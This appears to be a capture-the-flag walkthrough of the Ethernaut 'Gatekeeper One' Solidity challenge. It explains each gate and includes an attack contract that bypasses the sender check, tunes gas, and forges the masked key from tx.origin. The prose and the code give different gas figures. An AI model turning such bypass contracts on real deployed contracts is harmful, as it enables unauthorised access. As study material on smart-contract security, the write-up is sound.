


# Day 13 - Gate Keeper (1)

## Datatype conversions (Gate 2)

Whenever you convert a datapoint with larger storage space into a smaller one, you will lose and corrupt your data.



## Byte masking (Gate 3)

```js
bytes4 a = 0xffffffff;
bytes4 mask = 0xf0f0f0f0;
bytes4 result = a & mask ;   // 0xf0f0f0f0
```

## Solution

### Gate 1

Pass Gate 1 by simply letting your contract be the middleman

### Gate 3

Gate 3 takes in an 8 byte key, and has the following requirements:

```js
// uint32 => 4 bytes (max 0xffffffff)
// uint64 => 8 bytes (max 0xffffffffffffffff)
// uint16 => 2 bytes (max 0xffff)
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)));
require(uint32(uint64(_gateKey)) != uint64(_gateKey));
require(uint32(uint64(_gateKey)) == uint16(tx.origin));
```

### Gate 2

to pass Gate 2’s require(`msg.gas % 8191 == 0`), you have to ensure that your remaining gas is an integer multiple of 8191, at the particular moment when `msg.gas % 8191` is executed in the call stack.

gateTwo requires some trial and error regarding how much gas you should use. The simplest way to do this is to use .call() because you can specify exactly how much gas you want to use. Once you've initiated a failed transaction, play around with the remix debugger. Essentially you want to calculate the total cost of getting to exactly the point prior to the gasleft()%8191 == 0. For me, this is 254 gas so to pass this gate, I just needed to use a gas equivalent to some multiple of 8191 + 254 e.g. 8191 \* 100 + 254 = 819354

Notice GatekeeperOne was compiled with version v0.5.0 with no optimization enabled. Update your Remix settings accordingly.

Create a function which will call enter() and allocate a specified amount of gas. You should invoke enter() with the lower level call function, which gives you more control over gas usage. Allocate some arbitrary amount of gas:

```js
pragma solidity ^0.5.0;

import "SafeMath.sol";

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract AttackGateKeeperOne {
    GatekeeperOne victim;

    constructor(address _victim) public {
        victim = GatekeeperOne(_victim);
    }


    function attack() public {
        bytes8 _gateKey = bytes8(bytes20(msg.sender)) & 0xffffffff0000ffff;
        victim.enter.gas(81910 - 81658 + 81910 + 2)(_gateKey);
    }
}
```


